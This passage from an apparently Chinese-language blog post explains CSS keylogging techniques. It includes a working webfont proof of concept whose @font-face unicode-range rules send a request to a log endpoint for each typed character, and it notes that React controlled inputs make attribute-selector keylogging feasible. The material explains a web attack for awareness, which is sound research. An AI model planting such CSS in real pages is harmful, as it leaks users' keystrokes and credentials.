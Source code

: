 因為載入的網址一樣，所以重複的字元就不會再載入圖片，不會發送新的 Request。這個問題目前據我所知應該是解不掉。

## 在輸入的時候，其實 value 不會變

這個其實是 CSS Keylogger 最大的問題。

當你在 input 輸入資訊的時候，其實 input 的 value 是不會變的，所以上面講的那些完全不管用。你可以自己試試看就知道了，input 的內容會變，但是你用 dev tool 看的話，會發現 value 完全不會變。

針對這個問題，有兩個解決方案，第一個是利用 Webfont：

``` html
<!doctype html>
<title>css keylogger</title>
<style>
@font-face { font-family: x; src: url(./log?a), local(Impact); unicode-range: U+61; }
@font-face { font-family: x; src: url(./log?b), local(Impact); unicode-range: U+62; }
@font-face { font-family: x; src: url(./log?c), local(Impact); unicode-range: U+63; }
@font-face { font-family: x; src: url(./log?d), local(Impact); unicode-range: U+64; }
input { font-family: x, 'Comic sans ms'; }
</style>
<input value="a">type `bcd` and watch network log
```
（程式碼取自：[Keylogger using webfont with single character unicode-range](https://github.com/jbtronics/CrookedStyleSheets/issues/24)）

value 不會跟著變又怎樣，字體總會用到了吧！只要每打一個字，就會送出相對應的 Request。

但這個方法的侷限有兩個：

1. 沒辦法保證順序，一樣也沒辦法解決重複字元的問題
2. 如果欄位是`<input type='password' />`，就沒有用

（在研究第二個侷限的時候發現一件有趣的事，由於 Chrome 跟 Firefox 會把「頁面上有 type 是 password 的 input，但是又沒用 HTTPS」的網站標示為不安全，所以有人研究出用[普通 input 搭配特殊字體](https://www.troyhunt.com/bypassing-browser-security-warnings-with-pseudo-password-fields/)來躲過這個偵測，並且讓輸入框看起來像是 password（但其實 type 不是 password），在這種情形下就可以用 Webfont 來攻擊了）

再來我們看第二種解決方案，剛剛有說到這個問題的癥結點在於 value 不會變，換句話說，如果你 input 輸入值的時候，value 會跟著變的話，這個攻擊手法就很用了。

嗯...有沒有一種很熟悉的感覺。

``` js
class NameForm extends React.Component {
  constructor(props) {
    super(props);
    this.state = {value: ''};
  
    this.handleChange = this.handleChange.bind(this);
  }
  
  handleChange(event) {
    this.setState({value: event.target.value});
  }
  
  render() {
    return (
      <form>
        <label>
          Name:
          <input type="text" value={this.state.value} onChange={this.handleChange} />
        </label>
      </form>
    );
  }
}
```
（以上程式碼改寫自[React 官網](https://reactjs.org/docs/forms.html)）
